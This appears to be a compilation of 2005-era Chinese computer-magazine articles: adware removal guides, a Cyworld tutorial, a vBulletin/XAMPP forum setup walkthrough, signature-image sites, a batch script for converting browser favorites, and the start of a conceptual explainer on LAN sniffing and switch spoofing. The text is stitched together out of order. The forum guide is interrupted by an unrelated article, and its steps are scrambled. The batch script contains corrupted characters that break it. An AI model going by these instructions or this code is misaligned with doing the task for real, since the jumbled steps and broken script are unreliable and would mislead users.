第三步：为了防止日后再有网站采用同样的伎俩，干脆运行‘r e g s v r 3 2’‘D: \software\QQ\Timwp.dll’ /u命令将Timwp.dll从系统注册中去除掉。
第四步：在QQ中依次进入‘QQ菜单→系统设置→面板设置’菜单，在‘用户面板’栏中选中被强行添加的那个标签，单击‘删除’按钮即可。

经验之谈：关于QQ的广告骚扰，最近又有了些新花招，让人防不胜防：
★用群来发布广告：不知道大家留意没，最近经常能够接到有人要求加入你建立群的请求。遇到这样的情况，警惕性低的朋友可能会选择‘通过验证’，因为一般印象中只有知道你的群号码的人才会找到你，那么肯定是‘熟人’。而对方在加入群后，迅速发送一条广告，然后立即退出群，让人摸不着头脑。所以大家最好还是长个心眼吧，不要随便通过别人的入群请求。当然，腾讯的客服号10000也有的时候会在群里发广告消息，如果想去掉它，可以参看本刊2005年第4期《独辟蹊径 封杀QQ系统广播》一文。
★临时会话：做广告者只需要在浏览器中输入一个地址即可将广告投递到你的QQ消息中，这样的广告效果不错，而且效率很高，所以比较流行。解决的方法是进入QQ的‘系统设置→秘书设置→消息模式设置’窗口，选择‘不接受所有临时会话消息’一项（见图5）。如果不想关闭它，选择‘接收消息到我的秘书’即可。之后我们可以在QQ主窗口中单击‘QQ小秘书’查看留言。

同类黑名单：http://www.haobbs.net/soft/1540.htm(根本不提示而直接安装)



# “死而复生”的 DuDu 加速器

嵌入方式：启动项中加入安装程序，让程序卸载后“重生”
危害程度：★★★
内存占用：6460KB(不使用时)、13MB(下载文件时)、16MB(弹出广告时)

症状描述：DuDu加速器分为在线安装和下载后安装两种。其中在线安装的是功能相对简洁的“Mini DuDu”，安装后我们在控制面板无法看到其卸载程序，只有到 C:\Program Files\Mini ddd 文件夹中执行 Uninst.exe 文件完成卸载；下载安装的是功能比较复杂的完整版 DuDu加速器，该程序捆绑安装了一款名为“桌面传媒”的软件，而这个所谓的“桌面传媒”其实就是一个彻底的广告软件，安装后系统每隔一段时间会弹出一个广告窗口。而最为可恨的是，卸载该软件，重新启动后，再次来到 DuDu 的安装目录，发现它又被安装了！

危害描述：安装 DuDu 加速器时系统假死若干秒、DddClient.exe 进程常驻、系统资源占用率和内存使用率高、卸载比较困难。

解决尝试：
首先执行 DuDu 加速器安装目录下的 Uninst.exe 文件进行常规卸载，卸载完毕后重新启动计算机，进入 C:\Program Files\DuDu\DddClient 目录中又出现了 DuDu 加速器的程序；接下来到其官方网站提供的在线卸载页面，发现丝毫不起作用；留意到该软件在启动项中加载了一个名为 dmipn.dll 的文件，于是运行“rundll32.exe %ProgramFiles%\Desktop Media\Cast\dmipn.dll, DM_Uninstall”命令取消掉了该文件在系统中的注册。

解决之道：
第一步：运行 C:\Program Files\Desktop Media\Cast 目录下的 UnInstall.exe 文件卸载桌面传媒，接下来运行 C:\Program Files\DuDu\DddClient 目录中的 Uninst.exe 文件对 DuDu 加速器进行常规卸载，接下来删除“开始→程序→启动”菜单里面的“dddsetup.exe”程序，删除 C:\Documents and Settings\用户名\Local Settings\Temp 下的所有文件，并重新启动计算机。
第二步：删除 C:\Program Files\Desktop Media\Cast 和 C:\Documents and Settings\用户名\Application Data\Desktop Media 文件夹，在注册表中搜索“Desktop Media”和“DuDu”，删除所有搜索结果。

# 你知道吗？

DuDu 加速器捆绑广告的原理
DuDu 会通过监测检查注册表中[HKEY_LOCAL_MACHINE\SOFTWARE\DuDu\DddClient]分支下的“autoupdatetime”的数据来更新下载 DuDu，每隔一段时间，DuDu就会向http://dddup.DuDu.com/update/update.asp发起请求，并下载文件到 C:\Documents and Settings\用户名\Local Settings\Temp 目录中。下载完毕后，DuDu 便会以“%temp%\temp.exe /s /v/qn”命令来运行下载回来的 temp.exe，之后temp.exe开始下载并静默安装桌面媒体。因此，我们发现桌面媒体的安装文件夹总是在 DuDu 加速器安装完毕后大概数十秒左右建立。

经验之谈：注意 6 个“敏感地带”
建议大家在卸载此类狡猾的程序时考虑周到一些，尤其要留意任务管理器进程、启动项、启动菜单、Windows开关机脚本、计划任务和临时文件夹等6个敏感地带。很多时候，这些软件的各个程序文件之间可以互相照应，一旦其中一个地方被用户删除或卸载，程序具有自我免疫、修复能力，很快又完好如初。对付这类恶意软件的惟一办法就是多管齐下，将其连根拔起。

# 被霸占的地址栏

嵌入方式：嵌入浏览器、资源管理器的地址栏中
危害程度：★★★
内存占用：4MB(打开浏览器加载该软件时)

症状描述：不管是IE浏览器，还是资源管理器，在地址栏的下拉列表中出现很多中文广告。

危害描述：影响系统稳定、影响使用电脑的心情、中文广告中很多带有色情的站点。

解决之道：由于这些广告都是中文地址，于是怀疑是中文域名插件搞的鬼，但在查看自己的“添加／删除程序”时，发现系统中没有这类软件。在IE中选择“工具→管理加载项”菜单，也没有发现可疑的 ActiveX 控件。没办法，只好使用最后一招了——功能非常强大的 Upiea！

Upiea小档案

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 1.48 |
| 软件性质 | 免费软件 |
| 软件大小 | 712KB |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/35733.htm |

Upiea 是目前最强大的 IE 插件管理程序，它能够对 470 个 IE 恶意插件、29 个广告程序、159 个 QQ 和 MSN 流行病毒提供免疫，可以显示你已经安装了的 IE 插件，也可以帮助你卸载它们。

第一步：运行 Upiea后，切换到“插件管理”窗口，这里你能看到你的电脑里都安装了哪些垃圾插件，笔者发现自己安装了一个名为“青娱乐”的插件。看来问题在这里了，选中该插件后，单击“卸载”将该插件卸载。
第二步：切换到“插件免疫”窗口，在右边的“国内”标签中找到“青娱乐”，勾选后点击“应用”按钮，以绝后患。

经验之谈：Upiea 的功能性和易用性应该都是目前所有浏览安全辅助工具中最好的，如果你在浏览中遇到任何棘手问题，推荐你首先考虑用它来解决，比如常见的在杀毒之后文件关联丢失、屏蔽烦人的淘宝站点等等。

同类黑名单：CNNIC 中文域名插件

# 跟资源管理器抢地盘的“网址极限”

危害程度：★★★★
内存占用：12MB(打开“我的电脑”加载该插件时)
嵌入方式：修改资源管理器、浏览器菜单，属于 BHO 类插件

症状描述：访问某网站(http://www.op99.com/download.htm)提供的“网址极限”，感觉非常的野蛮，既没有提供卸载程序，也没有提供卸载方法。资源管理器和IE浏览器都多出了一个名为“网址”的菜单，点击后下面就有一些分类网址菜单(见图2)，都是链接到该网址搜集站的。



危害描述：严重影响上网者的心情、影响 IE 和资源管理器的载入速度。

解决之道：
第一步：首先到“添加／删除程序”和 C:\Windows\Downloaded Program Files，结果都没有什么收获。
第二步：只好来研究一下这个“网址极限”究竟对系统做了些什么了。首先在其他没有中招的电脑上下截安装 RegShot，运行之后，在其主界面勾选“扫描目录(可添加多个)”一项，一般情况下，对于这些恶意程序，有两个目录是最可疑的——C:\Windows 和 C:\Program Files，于是将这两个目录添加进去。接下来单击“快照——扫描并保存”按钮，扫描结束后保存为 HIV 文件。

小提示
RegShot 可以比较两个时刻系统文件、注册表的差异，这里我们就是比较安装“网址极限”前后的差异，以确定该软件究竟对系统做了什么。

第三步：接下来安装“网址极限”，安装完毕后在 RegShot 主界面中单击“快照二→扫描并保存”按钮，同样保存为一个 HIV 文件。搞定后单击“比较”按钮，我们就可以看到两者的差异所在了。
第四步：根据查找的结果，只需要删除 C:\Program Files\LtUc 文件夹，打开注册表，搜索“LtUcx”，将所有结果全部删除。

经验之谈：平时我们应该养成一些良好的上网习惯，下面是笔者的几个小经验。

- ★尽量使用多页面浏览器(比如 Maxthon、GreenBrowser 等)。
- ★到比较知名的站点去下载软件，比如华军软件园(http://www.newhua.com)。
- ★使用 Maxthon 浏览时，如果遇到有站点弹出警告窗口，可以按下 Ctrl 的同时点击关闭窗口，之后它就不会重复弹出了。

# 恶魔附身！五花大绑的“免费”软件

危害程度：★★★★★
内存占用：不同的广告不尽相同
嵌入方式：广告程序通过捆绑到软件的安装程序中，诱导，甚至强制进行广告软件的安装。

症状描述：安装某些软件之后，发现自己的系统中出现了来路不明的其他软件，或者频繁有广告窗口弹出。

危害描述：侵犯用户的知情权、大量广告软件后台运行耗费系统资源，甚至部分有间谍软件侵犯用户隐私。

解决之道：此类嵌入方式比较常见的有 CNNIC 中文域名插件、DuDu 加速器、阿里巴巴智能搜索等广告程序。这些公司为了推广自己的服务，付费使得共享软件作者将自己的程序集成到软件中。

如果你已经安装了此类捆绑软件，只好再去卸载这些附带安装的广告软件了，不过有些广告软件的卸载比较麻烦，建议大家使用 Upiea 这款软件来辅助卸载。其实，要真正避免这样的情况，最好还是注意自己安装使用软件的习惯吧。

经验之谈：

- ★在安装任何软件(即便是你熟悉的软件的新版本)、汉化补丁的时候，请一定不要“故作高手”，随意地狂按回车一个劲地“下一步”，因为很多捆绑的广告程序都在这一步骤中询问是否安装，而你按了下一步就算接受了。
- ★注意安装组件选择的一步。有些捆绑的广告软件默认处于选中状态；有些安装项目信息非常具有迷惑性，看完前半句和看完整个句子，意思完全不一样；有些安装的组件很多，而软件作者故意将广告插件放到了最下面，如果你不拉动滚动条，还以为没什么呢！
- ★阅读软件安装协议，有些协议条款你如果仔细去看了是不会接受的。比如 Messenger Plus!安装过程中的协议默认是选择“ad-ware 安装模式”，安装后就会有广告。再比如前文提到的 DuDu 加速器，安装过程中出现的桌面媒体(desktop media)授权的协议中，就有“本软件单机平均日播放量1次，最大限度每日不超过10次”。如果你仔细看了，即便你不知道“desktop media”是什么，也肯定不会去安装。
- ★最安稳的方式是先到软件的官方站点看看，如果有论坛，先去论坛看看是否有人在开骂，前车之鉴不该不看。

相关黑名单：紫光拼音输入法、暴风影音、水晶情缘软件、IE 修复免疫专家、QQ 消息验证群发器等

小编有话说：编辑在测试完本文中的各种广告软件之后，计算了一下安装前后系统资源的占用差别，发现资源占用竟然增加了80MB之多！想想看，现在主流的电脑内存才有 256MB 到 512MB 呀！幸好事先有所防范，Ghost 了硬盘，不然重装系统是在所难免的了！
(北京 小小)

# 1分钟建个“迷你小窝”

老网民一定还记得当初Chinaren推出的“主页大巴”服务吧？简单注册即可拥有个人主页，这曾是那个年代网民的梦想。如今主页大巴早已灰飞烟灭，终日游荡在网上的流浪者，又该到哪去寻找一个心灵的归宿呢？笔者最近发现一个名叫“赛我”（http://www.cyworld.com.cn）的站点，它让我重新有了“成家立页”的冲动……

## 在“赛我”能玩些什么？

网上个人主页服务站点不少，而且现在还有火热的Blog服务，那么在“赛我”中究竟能得到什么不同的体验呢？经笔者试用，下面几个特色让人怦然心动：

- ★漂亮时尚的主页面：既然是个人主页，漂亮、温馨肯定是第一的，该站点实际上发源于韩国（http://www.cyworld.com），据说在韩国非常火暴，页面风格也非常“韩化”。在这个闷热的夏天，不管你是不是“哈韩一族”，“韩流”也许能让你身心清爽一番。
- ★与朋友之间的互动：该站点既可以是个人主页，也可以是现实生活中朋友之间的交流平台。朋友之间可以“串门”，也可以互赠“礼物”。虽然一切都是虚拟的东西，但的确能有效增进感情。
- ★配套功能齐全：成为“赛我”会员后，主页、房间、相册、日记、涂鸦、论坛、留言……几乎所有能想到的功能一应俱全。这就跟你去买栋房子，一住进去就什么都准备好了一样，这样的家你还想搬么？

## 构建你的“迷你小窝”

### 1. 快速搭建“迷你小窝”

要想入住“迷你小窝”，当然不需要“分期付款”，你只需去领“房门钥匙”就行了。首先到 http://www.cyworld.com.cn/main/member_email_input_Wwview.php 注册账户，注册非常简单，输入你的邮箱地址即可。注册成功后你会收到一个激活邮件，访问邮件中提到的链接，在打开页面中设置密码、选择用户名，并填写基本注册信息，最后单击“注册”按钮，你的“迷你小窝”就算搭建成功了。其地址是：“http://www.cyworld.com.cn/用户名”。

### 2. 装修你的“迷你小窝”

“迷你小窝”的“钥匙”拿到手了，配套设施也很齐全，不过还得装修一下。打开 http://www.cyworld.com.cn，用注册的账户登录，接下来依次进入“迷你小窝→我的迷你小窝”页面，你就看到自己新家的庐山真面目了。怎么样？够Q吧？怎么让它更完善、更漂亮呢？

### ★ 添加“封面故事”

你今天有些什么感想？心情是什么颜色的？用“封面故事”来表达效果最好，一段文字，再配上一段真情告白，可以给访问者留下深刻印象。

- 第一步：在“小窝”的左边单击“修改”链接，在打开的页面中单击“上传照片”。上传照片页加载需要一定时间，且会提示你安装一个ActiveX插件，安装完毕后你就看到“图片工具”和“直接上传”两个标签了。
- 第二步：在“图片工具”标签中，你可以输入文本，也可以手动绘画、添加语言气球，或插入贴纸，绘画完毕后可以为你的画加一些效果。如果懒得搞那么多花样，就切换到“直接上传”标签中上传一张本地硬盘中的图片。
- 第三步：接下来输入你想说的话，单击“确认”，封面故事就写好了。

### ★ 打扮“我的房间”

大家一定留意到了页面正中的那张图片吧，那就是你的房间。目前只有一个男孩或者女孩孤零零地站在那里，看来需要增加些家居用品，布置一下。

- 第一步：点击进入“管理我的房间/迷你 me”页面，这里你可以选择你的心情、表情、发型、服饰等，先把自己的打扮一下（见图5）。搞定后单击“保存”，保存时候要求你输入“标题”，那就给这个房间起个名字吧，比如“客厅”、“卧室”……
- 第二步：现在来装点房间。由于我们现在还没有任何家具、装饰品，所以还得先去买。点击“小窝”右上角的“礼品店”，这里我们可以购买到家具、背景、装饰品等等好东西。购买完毕后还可以参加抽奖活动，中奖很高，反正笔者是每次必中，嘿嘿。^^

> 小提示
“赛我”中使用的钱币叫“红豆”，刚注册的用户有30红豆的“见面礼”，你也可以通过银行卡的在线充值，1人民币可购买10红豆。

- 第三步：买完东西后，我们就能在“小窝”的“我的房间”页面看到购买的物品了，双击物品之后可以调节它在房间中的位置。这其实跟QQ家园类似。

## 结交更多的“知己”

所谓“士为知己者死”，能够结交到那么几个好朋友，也算是不错的收获。

- 第一步：切换到“迷你小窝”页面，你能看到该站点的其他用户，在该用户的页面点击“邀请”按钮，在弹出页面中选择你要将她（他）加为你的好朋友或别的分类，然后在“邀请留言”中加入你想要对她（他）说的话，最后“发送”即可。你每天最多只能发送50个结交的请求（汗……哪来那么多知己）。当然你也可以在用户名上单击，在弹出的菜单中可以选择“知己→邀请”菜单来发送邀请。
- 第二步：待对方确认后，你们就是“知己”了。加了知己有什么用呢？你可以更容易地关注对方的更新，也可以快速达到对方的主页，可以给对方互通消息，也可以购买礼物来送给她（他），当然，还有一点比较关键：你可以买东西要求她（他）付账！（当然，这个得人家同意才行^_^）

## 使用“小窝”的4个小秘技

通过一段时间使用，笔者总结了4个比较有用的技巧，希望能给新手一些帮助。

1. 留意站点公告，因为该站点的中文版是刚开张不久，会有不少优惠或活动，甚至还有送T恤、纪念书包什么的。
2. 在你的小窝页面底部有一个工具栏，它非常有用，尤其是可以显示你最近访问过的该站点其他用户的小窝，而且还提供了一个“随机访问”功能，或许你一点下这个链接，一段缘分就开始了。
3. 站点提供了涂鸦、收藏夹功能。其中涂鸦自然是随意涂抹之地，你可以将其提交到站点，如果你的涂鸦作品不错的话，站点会给你奖励的。而收藏夹功能则相当于网络书签，方便随时访问自己喜欢的站点。
4. 红豆充值比较简单，只要你申请了各大银行的在线支付功能，均可以直接在网上购买。

（北京 山村野菇）

# 架个《电脑爱好者》论坛其实很容易

网上有不少各具特色的论坛，汇聚了不少网友，大家相互发言、沟通，彼此很容易的就能结交到很多志同道合的朋友。论坛比较突出的反映了网络交流、互动和社会性的特点。如果想自己的网站扩大人气，为访问者提供一个展示自己的环境，同时也能留下固定的来访者，那么一个架设论坛则是必不可少的，而很多网站其实就仅仅是一个论坛，却云集了大量的人气。

> 小提示
目前架设论坛相对简单，许多朋友开始从自制个人网站转而经营论坛，由于论坛更为开放，网友参与度更高，所以更容易聚积人气，只要多花费些心思就能获得不菲的浏览量，也正因为这样，不少火热论坛每月的广告收入（比如：放置广告条、Google广告等）不菲。

## 架论坛就像玩软件一样简单

许多朋友以为架设论坛是个专业工作，必须会专业的网络知识，而且还要会编程，

也许前几年是这样的，但现在架论坛其实就像用一个实用软件那样轻松、简单！论坛程序就是运行在服务器上的一套软件，安装好了这套软件，按自己需求做好设置，你的论坛就可以开门迎客了。接下来重要的就是我们要挑选一个什么样的论坛程序呢？要用就要用最好的，因此我们推荐使用vBulletin。

> 小知识
**ASP**
ASP论坛使用很普遍，操作简单。不过ASP论坛相对PHP和CGI来说安全性较差，占用资源量大。ASP论坛调试起来方便简单，功能也比较完整。
**PHP**
PHP动态交互工具算是比较新的，它一出现，就以占用资源少、稳定性好、安全性强等优点，得到了许多用户认可，很多大型网站也纷纷采用PHP技术来制作论坛。本文介绍的vBulletin就是这种类型。
**CGI**
在互联网上出现ASP和PHP之前，CGI一直是主流的网页交互工具。但由于学习起来比较困难，而且和网页结合也不是太好，所以随着ASP和PHP推出，CGI已慢慢退出论坛领域。
vBulletin是论坛程序中功能最强大，性能最稳定，安全性最好，同时也是世界上使用最多的论坛程序。从个人网站到政府网站，从专业网站到企业网站它都被作为首选使用，而且由于它安全、健壮、强大的特点，所以特别受恐怖分子所开设网站的青睐，从另一个极端的侧面反映了其可靠性，是架设中大型社区的不二选择。同时vBulletin的代码可见和强大的模板功能，尤其利于用户进行再开发和个性化的设置，网上有大量现成插件和模板，所以也很受个人网站的偏爱。vBulletin也是论坛软件业界事实上的技术领导者和市场的领先者，因此我们推荐具有代表性的vBulletin作为论坛架设的范例。vBulletin现在最新的版本是3.5 beta 1，下面就以vBulletin 3.5 beta1中文增强版为例教你整个论坛架设的过程。

## 来！10分钟和我们一起架设论坛

既然论坛是一套运行在服务器上的软件，那么就要为论坛创造一个适合它运行的服务器环境。我们可先在本机上构建一个服务器环境。以vBulletin为例，它的运行环境是PHP + Mysql。为避免繁琐的服务器设置，我们要下载一个服务器套件安装到自己的电脑上，然后把论坛程序文件放到指定目录下，通过网页安装和设置，这样论坛就算搭建好了。第一步：构建服务器环境（如果不是在本机上则不需要这一步，确保你的空间支持php + Mysql就行）这一步其实很简单，下载服务器套件并安装。我们推荐Apache Friends XAMPP，功能

## 书法字、设计师统统请到家！

细心的读者朋友们，可能都看到过很多网友都拥有自己邮箱的个性签名图片，有的做得非常精美。在网络世界中，个性签名可以在很多场合来凸显我们的个性，例如邮件中、论坛签名，甚至像QQ、MSN Messenger聊天软件中都可以使用。如果你的图像处理软件玩得比较熟，那当然是另当别论了，但像笔者这样对Photoshop这类图像处理软件比较菜的朋友来说，要想拥有一个既漂亮又容易得到的个性签名，借他山之石便是一个最好的办法了。

## 免费设计签名啦

你一定在街上看到过一些所谓的“书法家”提供“设计签名”的服务，当然，这服务不是免费的。在互联网上，我们也常常需要留下自己的“签名”——论坛、聊天工具中的头像、Blog中的题图、邮箱链接，这东西都不大，但制作起来却很费工夫，能不能请人替我们服务呢？没问题！

## 实例:带文字的MSN头像，一分钟搞定！

第一步:登录 http://www.eooool.com/Default.aspx?TypeID=0&TypeID=100 这个网站，选择“MSN头像96×96”，然后按下“制作图标”按钮。

第二步:在电脑中选择要使用的素材图标，然后按“上传图片”按钮。如果你没有合适的图片，可以使用网站自带的素材库，分类很详细，图片也比较精美。

第三步:将鼠标移动到虚线框右下角，拖动鼠标，选择要剪切的部分，然后按下“确定剪裁”。

第四步:输入在图片中添加的文字。网站可以自动给文字增加边框的美化效果，使字体看起来更美观。最后，将提供输出功能，将最后的图片输出到GIF文件，便于今后使用。

除了QQ、MSN头像之外，还可以制作论坛签名、Blog题图、网站Logo等图片，方法比较类似，这里不再赘述。

Just Do It
邮箱酷链马上做
你一定看到很多人在论坛或主页上有自己很漂亮的签名吧(见图1)？


Eooool也提供这样的功能，还是登录上面的网址，输入邮箱用户名，选择邮箱后缀，然后选择“制作图标”，一秒钟之后，漂亮的签名就有了！这里收集了绝大多数国内知名Email信箱的后缀，省去了不少麻烦。

## 英文签名也好做

打开浏览器，进入 http://www.nhacks.com/email/index.php 页面，接下来只要在该页面中的“Enter Your e-mail address”框中输入你要显示的邮件个性签名邮箱名，然后在“@”后面选择邮箱的域名，最后单击“Generate”按钮即可得到你想要的个性签名图标(可以下载)及该图标的URL地址(可以用于网页签名)了。

## 小提示

- 其他图片在线处理网站
- 各类即时聊天工具头像、表情制作:http://www.chami.com/html-kit/services/buddyicon/
- 图片在线变形、处理:http://www.chami.com/html-kit/services/imge/
- 图片在线切割:http://www.chami.com/html-kit/services/is/

## 个性图标的几个典型应用

拥有了个性签名图标后，我们就可以在网络世界中展现我们的独特风采了。

### 1.点缀我的网页签名

如果你注册了一些支持个性签名的论坛的话，你就可以通过设置论坛中的个人信息将自己的个性签名添加上去。现在一般的论坛都支持添加个人个性签名的功能，有的支持图片的URL，有的则支持直接从电脑中上传图片文件。在上面操作中，我们既得到了图片文件，又得到了图片的URL地址，根据你的情况选择一种方式添加即可。这种方法同样适用于现在比较流行的个人Blog网站中的个性签名。

### 2.文档中添加个性签名

如果你使用Word，也可以将这个个性签名添加到你的Word文档中。单击Word主窗口中的菜单“插入→图片→来自于文件”，然后找到个性签名图片即可(见图2)。当然，还有很多其他软件可能也会支持个性签名，都可以将制作的个性签名图片添加到这些软件中来，放飞你的个性！



完善强大，有中文界面。官方网站是 http://www.apachefriends.org/en/，可在 http://jaist.dl.sourceforge.net/sourceforge/xampp/xampp-win32-1.4.13-installer.exe 下载。安装好后，你就拥有了因特网最受欢迎的Apache + php + Mysql服务器环境了，你的电脑也变成了一个可以提供文件传输FTP、网页http、数据库mysql、邮件E-mail服务的服务器了。服务器系统默认的用户名是root，没有设置密码。我们还需要了解一个特定的文件夹——假设安装在D盘，那么 D:\apachefriends\xampp\htdocs 这个目录就是存放网站文件的地方。

浏览 http://localhost/xampp/index.php 你就可以看见服务器后台的相关选项了。如果选择中文时出现乱码，请用记事本打开编辑 D:\apachefriends\xampp\apache\conf\httpd.conf 文件，搜索 "AddDefaultCharset ISO-8859-1"，删掉这一行或在这一行前面加上“#”注释掉，则可以避免乱码的出现。



文件，否则是不能访问论坛。一切做好之后，浏览 http://localhost/vbtest/index.php 就可以看见论坛的样子了。

第三步:对论坛进行设置
用管理员身份登录后台 http://localhost/vbtest/admincp/index.php。一个强大的后台管理界面即出现在你的眼前。由于vBulletin的功能非常多，我们着重讲几个方面:

### 1.讨论版设置

我们需要为论坛设置不同版块。点击左侧“版面与版主”小三角图标展开此项，你就可以根据链接内容对编辑讨论版，添加版主，设置用户权限等等设置了。

### 2.增加上传附件的类型

论坛有时会需要会员上传图片或程序文件，通过“附件→扩展名和文件大小”可以让会员上传更多类型的文件，也可以限制上传文件的大小和图片规格。

## 想做泡坛大虾？请看vBulletin使用小秘技

1.当进入一个帖子相对较多的区，有时会有眼花缭乱的感觉。如果想看新帖，单看发贴日期，确实有点费眼睛。其实大可不必，论坛已经提供了帖子的排列功能(左下角)。
下拉排列方式，选中“主题发起时间”，点击显示主题，帖子就乖乖地按时间排列了，很方便。

2.哪些主题是你参与过、浏览过的呢？如果一不小心，在同一个帖子发表两次以上

第二步:安装论坛，同时添加论坛管理员
这一步也很简单，vBulletin的安装程序会一直提示你怎么安装，基本上只需一直点击“下一步”按钮就行了。
不过首先需要把论坛程序文件(在软件包 upload 文件夹中)拷贝至文件夹 D:\apachefriends\xampp\htdocs\vbtest 中，然后修改 D:\apachefriends\xampp\htdocs\vbtest\includes\config.php.new 文件。主要是把服务器名，数据库的用户名、密码，数据库编码 ($config['Database']['charset'] = 'latin1')填好，保存，并把文件改名为 config.php。我们就可以开始安装论坛了(见图2)。

## 小提示

成功安装的 config.php 文件的内容，可以从 http://www.newhua.com/cfan/200515/config.rar 下载，你可以复制其中内容使用。

打开浏览器，输入论坛安装地址，http://localhost/vbtest/install/install.php，按提示一步步安装，最后输入管理员名称，密码和E-mail，论坛就算安装好了。安装完成后，出于安全原因，vBulletin会提示你删除 install.php



的回复，就是灌水啦，论坛也提供了相应的功能(左下角)，见图3。

只要你参与回复的主题会显示:类似带箭头的图标。是不是很方便？当然，潜水的就只能自己练习记忆力啦！

### 3.点击论坛上方的“查看新帖”

可以显示你上次登录以来没有看过的更新帖子和最新主题，适合想什么都看看和密切关注整个论坛动向的大虾。

### 4.如果一个帖子很好看，想收藏起来，同时也有没有更新，怎么办呢？

可以使用订阅功能。在主题上方“主题工具中”点击“订阅主题”就行了。

### 5.快速回复现在真的叫快速回复了，

应用了最新的ajax技术，不会刷新页面，一提交直接就“接”在上个帖子下了。真是方便灌水啊。

### 6.每个图片类型的附件都可以单独设置

是否生成缩略图，而不是全部生成或不生成。每个附件类型现在都有“在新窗口中打开”的选项。[attach] BB 代码允许您将附件直接在帖子中插入引用附件，喜欢发图文并茂的帖子的会员会十分喜欢这个功能的。用法为: [ attach ]附件ID[ /attach ]。

## 小提示

关于vBulletin论坛的技巧还很多，如果有论坛使用上的问题还可以在 http://www.vbzh.org 提出，这是一个vBulletin中文爱好者交流论坛使用的地方，会有很多热心网友帮助你解决问题，在这里也可以秀出自己的论坛作为展示或宣传。那些喜欢在论坛里混，却老是还是普通会员的网友们这下可以尝试自己做管理员的滋味了。如果你搭建好了自己的论坛，就有了自己在网上一个家了，可以根据自己的爱好或生活圈子为主题建立一个专门的论坛，吸引志同道合的朋友或周围的同学同事来这里闲聊或讨论问题，形成一个网上共有家园。愿你的论坛越办越红火哦。

## IE“窃取”多页面浏览器的收藏夹

小肖是电脑初学者，一直使用IE浏览器。一次，他看到他崇拜的高手香奈儿收藏夹中有很多不错的网址，于是想据为己有。香奈儿倒是很痛快地答应了。但“交货”的时候却出现了麻烦:香奈儿使用的是Maxthon浏览器，它的收藏夹叫做“群组”，和IE收藏夹不通用。怎么办?在Maxthon中添加了很多站点到群组中，如何将这些站点快速添加到IE的收藏夹?难道只能一个个的去重新添加么?

这确实是一个既实际又棘手的问题，实际上我们可以通过强大的for命令来实现将群组文件(CGP格式，实际上GreenBrowser浏览器的群组文件也是这样的格式)转化为IE收藏夹文件。

### 实例1:将Maxthon群组转换成IE收藏夹

第一步:用记事本编辑如下内容，将其保存为一个CMD文件:

```

@echo off
setlocal ENABLEDELAYEDEXPANSION
for %%a in (*.cgp) do (
  set pathu=ie_url\%%~na
  md !pathu!
  set /a n=0
  for /f "skip=1 tokens=1* delims==" %%i in (%%a) do (
    if "%%i"=="[Properties]" (set /a n=1) else (
      if !n!==0 (
        echo [InternetShortcut]>>?pathu!\%%i ? url
        echo URL=%%j>>?pathu!\%%i ? url)
      )
    )
  )
endlocal

```

第二步:打开命令提示符窗口，进入Maxthon的安装文件夹下的Group目录，运行该CMD文件，当前目录中将自动生成一个名为ie_url的文件夹，打开该文件夹，将其中的所有文件夹复制到C:\Documents and Settings\用户名\Favorites目录中即可。

> 小提示
本代码可以到http://www.newhua.com/cfan/200515/MT-IE.rar下载。

### 实例2:IE收藏夹→Maxthon群组

在“开始→运行”中输入“Favorites”，回车后打开收藏夹所在文件夹。从http://www.newhua.com/cfan/200515/IE-MT.rar下载文件后解压缩到收藏夹所在文件夹，运行IE-MT.cmd，稍等片刻就可以看到生成一个ie_url文件夹，里面就是小肖需要的收藏夹了。

### 实例3:GreenBrowser浏览器群组→Maxthon群组

从http://www.newhua.com/cfan/200515/GB-MT.rar下载压缩包后解压缩到GreenBrowser浏览器所在目录下的Group文件夹，然后运行GB-MT.cmd，稍等片刻，就可以在“max_group”文件夹中得到Maxthon群组了。

> 小提示
如果你想看CMD文件中的代码，不要双击它，而是要用鼠标右键点击它，在右键菜单中选择“编辑”，就可以在记事本中看到代码了。

> Just Do It
看了GB-MT.cmd的代码，你能否发挥自己的分析能力，设计出Maxthon群组转成GreenBrowser浏览器群组批处理呢?如果看不懂也没有关系，这里透露一个小秘密:系统栏目的小编狂PK近期将会教你一些强力的“For语句使用秘籍”，非常值得期待哦!

(山村野菇 LX)

## 谍中谍3！网络上演不可能的任务

耗资1.5亿美元、汤姆·克鲁斯主演的《碟中谍3》已于7月在罗马开拍。这次，克鲁斯饰演的特工一定会借助更先进间谍工具、武器和汽车来刺探情报。不过，你可知道，在网络上也有这样一些兼职特工，他们借助共享甚至是免费工具软件，也能在别人毫不知情的情况下获得惊人的秘密!

狗是世界上嗅觉最灵敏的动物，狗的鼻子上有两亿多个嗅觉细胞，能区别两百万种气味。网络中也有一种如狗鼻子般灵敏的东西，它就是嗅探器(Sniffer)。你可能没有听过“嗅探”这个词，但你一定在电影里面看到过“窃听器”，其实嗅探器跟“窃听器”用来偷听别人的谈话是类似的，它的目的在于“窃听”计算机程序在网络上发送和接收到的数据。

### 嗅探是怎样实现的？

就拿我们经常使用的聊天软件MSN的一条信息来讲吧，有些软件能窃听到局域网内其他电脑上的MSN Messenger聊天信息，这是如何实现的呢?假设局域网上有计算机A，当A向Internet上某计算机B发送一条MSN Messenger信息时，这条信息经过了下面的“沧桑历程”:

第一步:首先信息会转化为帧(分为好几部分，比如定义该信息的源地址和目的地址、TCP/IP的报文头等等)，接下来帧在网络中传播，直到集线器中，这里又会分为两种情况(见图1):



- ★如果集线器是我们最常用的HUB，那么HUB将会把这些收到的帧信息“广播”出去；同一网段的网卡都能够接收到这条信息。
- ★如果不是集线器而是交换机，交换机内部的单片程序则可以记住它的每个插口的MAC地址，根据帧信息的内容来确定目标地址是哪里，并只把信息发送到目标地址的网卡处。

第二步:当帧信息经过了集线器的处理之后，我们的主角一嗅探器就该闪亮登场了(见图2):



- ★对于集线器来说，情况非常简单，因为帧信息已经自动“喂”到各个网卡了。网卡会分析一下这些帧信息的目标地址，如果正好是自己，那就接收，如果不是，一般不会接收。而嗅探器则是将网卡的工作模式设置为“杂收模式”，这就可以不管帧信息的目标地址是不是自己，统统收下并还原成我们能够读懂的信息了。
- ★对于交换机来说，情况就要复杂点了，因为帧信息已经被交换机按照目标地址进行了分配处理。这时嗅探器就要来一招“狸猫换太子”的功夫了。它只需要伪造一个包含目标地址(也就是计算机B)的数据包给交换机，交换机就会被欺骗，以后本该发往计算机B的数据，却错误地发到你的网卡中来。接下来要做的就跟在HUB中一样简单了。

> 小提示
